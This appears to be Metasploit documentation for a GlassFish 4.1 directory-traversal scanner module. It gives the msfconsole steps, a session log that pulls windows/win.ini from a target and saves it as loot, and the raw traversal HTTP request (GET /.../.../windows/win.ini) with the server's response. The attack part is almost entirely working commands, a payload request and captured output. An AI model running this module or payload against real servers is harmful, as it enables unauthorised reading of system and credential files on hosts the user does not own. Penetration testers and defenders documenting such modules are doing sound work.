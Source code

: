 ## Vulnerable Application

This module exploits an unauthenticated directory traversal vulnerability which exits in administration console of,
Oracle GlassFish Server 4.1, which is listening by default on port 4848/TCP.

Related links :

* https://www.exploit-db.com/exploits/39441/

## Verification

```
Start msfconsole
use auxiliary/scanner/http/glassfish_traversal
set RHOST
set RHOSTS
run
```

## Scenarios

```
msf > use auxiliary/scanner/http/glassfish_traversal 
msf auxiliary(scanner/http/glassfish_traversal) > set RHOST 192.168.1.103
RHOST => 192.168.1.103
msf auxiliary(scanner/http/glassfish_traversal) > set RHOSTS 192.168.1.103
RHOSTS => 192.168.1.103
msf auxiliary(scanner/http/glassfish_traversal) > run

[+] ; for 16-bit app support
[fonts]
[extensions]
[mci extensions]
[files]
[Mail]
MAPI=1
[MCI Extensions.BAK]
3g2=MPEGVideo
3gp=MPEGVideo
3gp2=MPEGVideo
3gpp=MPEGVideo
aac=MPEGVideo
adt=MPEGVideo
adts=MPEGVideo
m2t=MPEGVideo
m2ts=MPEGVideo
m2v=MPEGVideo
m4a=MPEGVideo
m4v=MPEGVideo
mod=MPEGVideo
mov=MPEGVideo
mp4=MPEGVideo
mp4v=MPEGVideo
mts=MPEGVideo
ts=MPEGVideo
tts=MPEGVideo

[+] File saved at: /home/inputzero/.msf4/loot/20180731174317_default_192.168.1.103_oracle.glassfish_982307.txt
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf auxiliary(scanner/http/glassfish_traversal) >
```

## HTTP Request

```
GET /.../.../.../.../.../.../.../.../.../windows/win.ini HTTP/1.1
Host: 192.168.1.105:8667
User-Agent: Mozilla/5.0 (Windows NT 6.1; WOW64; rv:61.0) Gecko/20100101 Firefox/61.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
```

## HTTP Response

```
HTTP/1.1 200 OK
Content-Length: 403
Content-Type: text/plain
Expires: Mon, 30 Jul 2018 11:16:55 GMT
Last-Modified: Tue, 14 Jul 2009 05:09:22 GMT
Server: Microsoft-HTTPAPI/2.0
Date: Sun, 29 Jul 2018 06:46:55 GMT
Connection: close

; for 16-bit app support
[fonts]
[extensions]
[mci extensions]
[files]
[Mail]
MAPI=1
[MCI Extensions.BAK]
3g2=MPEGVideo
3gp=MPEGVideo
3gp2=MPEGVideo
3gpp=MPEGVideo
aac=MPEGVideo
adt=MPEGVideo
adts=MPEGVideo
m2t=MPEGVideo
m2ts=MPEGVideo
m2v=MPEGVideo
m4a=MPEGVideo
m4v=MPEGVideo
mod=MPEGVideo
mov=MPEGVideo
mp4=MPEGVideo
mp4v=MPEGVideo
mts=MPEGVideo
ts=MPEGVideo
tts=MPEGVideo
```
